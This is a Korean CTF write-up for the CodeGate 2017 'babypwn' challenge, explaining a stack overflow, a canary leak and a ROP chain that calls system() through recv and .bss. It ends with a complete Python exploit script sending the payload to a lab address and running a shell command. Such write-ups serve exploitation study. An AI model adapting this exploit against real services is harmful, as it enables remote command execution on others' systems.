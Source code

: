 # babypwn
### CodeGate 2017
***babypwn은 코드게이트 2017 예선에 출제된 문제입니다.***

babypwn을 처음 실행하면, 아래 그림과 같이 CodeGate!라는 말과 함께 3가지의 선택지가 나옵니다.

![Alt text](https://github.com/Funniest/System-study/blob/master/babypwn/img/Stack.PNG)

여기서 취약한 곳을 정리하여 보겠습니다. (위, 아래 그림 참조)

![Alt text](https://github.com/Funniest/System-study/blob/master/babypwn/img/Vuln.PNG)

sub esp, 50 -> 0x50만큼 버퍼 생성

[ebp+var_34] -> 입력 버퍼

[ebp+var_c] -> 더미(?)

Stack_check가 있는 것으로 보아 더미 중간에canary(4byte)가 존재

취약한 함수 = call sub_8048907

buf의 크기는 총 0x34(52) + SFP = (56)인데, 입력은 0x64(100)만큼 받습니다.

└ recv(fd, buf, 0x64, 0)

즉 오버플로우가 일어나게 됩니다.

이제 익스플로잇에 필요한 가젯들을 정리해 보면,
```
1. Canary 카나리
2. recv_plt, recv_got
3. ppppr
4. system_plt
5. ppppr
6. bss영역
```
이 필요합니다.

익스플로잇 순서는
```
1. canary를 leak합니다.
2. 익스플로잇에 필요한 가젯들을 구합니다.
3. 구한 가젯들을 조합해서 페이로드를 작성합니다.
     └ recv_plt를 이용하여 bss영역에 실행하고 싶은 명령어를 씁니다.
     └ system_plt에 bss영역을 인자를 주어 명령어를 실행합니다.
```
### 소스코드
Ubuntu 16 LTS 32bit 환경에서 테스팅 해보았습니다.

```
from socket import *
from struct import *
from time import *

p = lambda x: pack("<L", x)
up = lambda x : unpack("<L", x)[0]

def sendline(s, string) :
    s.send(string + '\n')

s = socket(AF_INET, SOCK_STREAM)
s.connect(('192.168.228.138', 8181))

print "[+]step01 get canary"
print s.recv(2048)

sendline(s, '1')
print s.recv(1024)

'''
#canary
payload = ''
payload += 'A' * 41 #buffer[40] + canary[1] <= 0x00
s.send(payload)

print s.recv(1024)
print s.recv(41)
canary = "\x00"
canary += s.recv(3)
canary = up(canary)

print "Canary : " + str(hex(canary))
'''

canary = 0x12e5ca00
send_plt = 0x8048700
send_got = 0x804B064
recv_plt = 0x80486E0
recv_got = 0x804B05C
bss = 0x804b1b4
ppppr = 0x8048eec
system_plt = 0x8048620

cmd = 'ls -al'

payload = ''
payload += 'A' * 40
payload += p(canary)
payload += 'B' * 12

payload += p(recv_plt)
payload += p(ppppr)
payload += p(0x04)
payload += p(bss)
payload += p(len(cmd))
payload += p(0x00)
payload += p(system_plt)
payload += p(0x41414141)
payload += p(bss)

s.send(payload)

print s.recv(1024)
sendline(s, '3')

sendline(s, cmd)
print s.recv(1024)
s.close()
```
